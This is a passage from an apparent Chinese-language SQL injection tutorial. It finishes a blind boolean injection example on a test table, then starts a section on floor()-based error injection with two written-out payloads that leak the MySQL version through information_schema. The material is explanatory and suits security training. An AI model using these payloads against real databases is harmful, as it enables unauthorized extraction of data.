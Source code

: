 看到返回了1，也就是说select bin_column from learning_test where num=2这个查询语句返回的结果集的第一个字符的ascii码确实是大于10的。当然这个过程是繁琐的，可以使用脚本进行自动化猜解，或使用sqlmap中集成的类似的自动化注入功能。

<br>

**0x06   利用floor()报错注入**

****

**payload：**

```
...and (select count(*),concat(version(),floor(rand(0)*8))x from information_schema.tables group by x)a;
```

或

```
...and (select count(*) from (select 1 union select null union select !1)x group by concat(version(),floor(rand(0)*2)))
```


